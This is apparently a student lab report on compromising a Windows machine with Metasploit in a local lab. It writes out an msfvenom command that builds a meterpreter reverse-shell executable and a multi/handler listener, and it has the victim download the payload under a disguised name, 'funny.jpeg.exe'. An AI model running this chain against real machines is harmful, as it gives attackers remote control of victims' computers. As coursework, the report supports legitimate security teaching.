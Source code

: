 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
PROGRAM:
Find the attackers ip address using ifconfig

OUTPUT:
![Screenshot 2025-05-12 040709](https://github.com/user-attachments/assets/72cde6fd-e50e-44c7-a485-148a28b88956)


Create a malicious executable file fun.exe using msfvenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe copy the fun.exe into the apache /var/www/html folder Start apache server sudo systemctl apache2 start

Invoke msfconsole:

OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


![Screenshot 2025-05-12 040728](https://github.com/user-attachments/assets/6766e878-802a-4ff5-9eca-746cc1e8c93c)

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
![Screenshot 2025-05-12 040739](https://github.com/user-attachments/assets/9cf19cb1-2fee-42a0-be1a-cc5226a0e89b)
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.149.243/funny.jpeg.exe The file "fun.exe" downloads.
![Screenshot 2025-05-12 040753](https://github.com/user-attachments/assets/d03182eb-5968-4c4d-94a8-e32ebd1fed56)



## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
